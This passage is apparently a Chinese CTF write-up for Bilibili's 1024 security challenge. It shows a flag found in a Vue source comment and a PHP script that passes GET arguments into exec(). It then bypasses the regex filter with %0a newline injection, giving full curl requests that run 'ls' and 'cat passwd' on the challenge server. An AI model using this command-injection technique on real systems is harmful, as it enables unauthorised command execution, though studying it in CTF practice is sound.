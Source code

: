 从前端源码可以看出该项目是一个使用 vue 框架的前端项目。发现 `webpack:///src/views/home.vue` 路径下包含一个像 flag 的 token 注释。

其值为 `36c7a7b4-cda04af0-8db0368d-b5166480` 。提交后答案正确

## 安全攻防--3

**解出**

```
PHP is the best language for web programming, but what about other languages?
https://security.bilibili.com/sec1024/q/eval.zip
```

下载可以看到如下 php 代码（没学过）

```php
<?php
    /* 
        bilibili- ( ゜- ゜)つロ 乾杯~
        uat: http://192.168.3.2/uat/eval.php
        pro: http://security.bilibili.com/sec1024/q/pro/eval.php
    */
    $args = @$_GET['args'];
    if (count($args) >3) {
        exit();
    }
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) ) {
            exit();
        }
    }
    // todo: other filter
    $cmd = "/bin/2233 " . implode(" ", $args);
    exec($cmd, $out);
    for ($i=0; $i<count($out); $i++){
        echo($out[$i]);
        echo('<br>');
    }
?>
```

根据 [博客](https://blog.csdn.net/qq_20817327/article/details/77720823) 说明 `%0a` 可以绕过 PHP 的正则。

因此先执行一下 ls `curl --location -g --request GET 'http://security.bilibili.com/sec1024/q/pro/eval.php?args[]=a%0a&args[]=ls'` 输出如下

```html
1.txt<br>
                 passwd<br>
                 data<br>
                 config<br>
```

再执行一下 cat passwd `curl --location -g --request GET 'http://security.bilibili.com/sec1024/q/pro/eval.php?args[]=a%0a&args[]=cat&args[]=passwd'`
